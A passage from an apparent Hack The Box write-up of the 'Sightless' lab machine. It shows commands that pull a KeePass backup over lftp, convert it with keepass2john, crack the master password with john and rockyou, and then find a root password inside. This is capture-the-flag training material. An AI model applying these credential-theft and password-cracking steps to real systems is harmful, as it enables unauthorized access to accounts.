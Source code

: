 ```c
lftp web1@sightless.htb:/goaccess> cd backup
```

```c
lftp web1@sightless.htb:/goaccess/backup> dir
-rw-r--r--   1 web1     web1         5292 Aug  6 14:29 Database.kdb
```

```c
lftp web1@sightless.htb:/goaccess/backup> get Database.kdb
5292 bytes transferred
```

### Cracking the KeePass 2 Database Password

We used `keepass2john` to generate a `crackable format` of the `database` and within seconds we got the password for out of it.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Sightless/files]
└─$ keepass2john Database.kdb > database_hash
Inlining Database.kdb
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Sightless/files]
└─$ sudo john database_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 600000 for all loaded hashes
Cost 2 (version) is 1 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bulldogs         (Database.kdb)     
1g 0:00:00:59 DONE (2024-09-08 12:17) 0.01686g/s 17.54p/s 17.54c/s 17.54C/s kucing..pisces
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Password |
| -------- |
| bulldogs |

### Investigating the KeePass 2 Database File

Since `.kdb` files are usually used within `KeePass` and not `KeePassXC`, we imported it using the `build-in` function and saw a `password` for `root` during the preview of the import process.
